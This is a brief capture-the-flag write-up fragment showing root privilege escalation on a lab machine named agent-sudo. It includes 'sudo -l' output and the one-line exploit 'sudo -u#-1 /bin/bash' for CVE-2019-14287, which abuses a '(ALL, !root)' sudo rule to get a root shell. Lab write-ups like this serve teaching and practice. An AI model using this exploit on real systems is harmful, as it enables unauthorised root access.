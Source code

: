 # user flag found in home directory such as a picture for question 11

# Now let's get root
# Let's check sudo options
sudo -l

Matching Defaults entries for james on agent-sudo:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on agent-sudo:
    (ALL, !root) /bin/bash

# Hmmmmmm... Looks like we have CVE-2019-14287

sudo -u#-1 /bin/bash

# BOOM! Car is pwned
